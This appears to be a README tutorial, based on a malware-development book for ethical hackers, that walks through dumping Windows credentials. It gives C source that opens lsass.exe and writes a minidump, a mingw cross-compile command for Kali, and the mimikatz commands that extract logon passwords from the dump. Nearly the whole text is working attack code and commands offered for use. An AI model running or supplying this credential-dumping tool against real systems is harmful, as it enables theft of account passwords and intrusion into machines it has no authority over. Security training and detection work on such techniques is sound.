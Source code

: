 # Compil the code in Kali
But before compiling the code... <br>
### Modify the path in `hack.c`
Change the `<YOUR_USER_NAMW>` to yours. <br>
```c
// create minidump of lsass.exe
BOOL generateMiniDump() {
  bool dumpSuccess = FALSE;
  int processID = locateTargetProcess("lsass.exe");
  HANDLE processHandle = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 0, processID);
  HANDLE outputHandle = CreateFile((LPCTSTR)"C:\\Users\\<YOUR_USER_NAME>\\AppData\\Local\\Temp\\lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (processHandle && outputHandle != INVALID_HANDLE_VALUE) {
    dumpSuccess = MiniDumpWriteDump(processHandle, processID, outputHandle, (MINIDUMP_TYPE)0x00000002, NULL, NULL, NULL);
    printf(dumpSuccess ? "successfully dumped to lsass.dmp :)\n" : "failed to dump :(\n");
  } 
  return dumpSuccess; 
}

```


### Then it's good to go. 
Let's compile the code. <br>
```
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -ldbghelp
``` 
![](./screenshots/11.png) <br>

### Load the dump file `lsass.dmp`
```
.\mimikatz.exe
sekurlsa::minidump C:\Users\<YOUR_USER_NAME>\AppData\Local\Temp\lsass.dmp
sekurlsa::logonpasswords
```
![](./screenshots/12.png) <br>
![](./screenshots/13.png) <br>
![](./screenshots/14.png) <br>

---
# References
- Book - [Malware Development for Ethical Hackers: Learn how to develop various types of malware to strengthen cybersecurity](https://www.packtpub.com/en-us/product/malware-development-for-ethical-hackers-9781801810173) By
Zhassulan Zhussupov, 2024
- [Source code - hack.c](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers/blob/main/chapter04/02-lsass-dump/hack.c)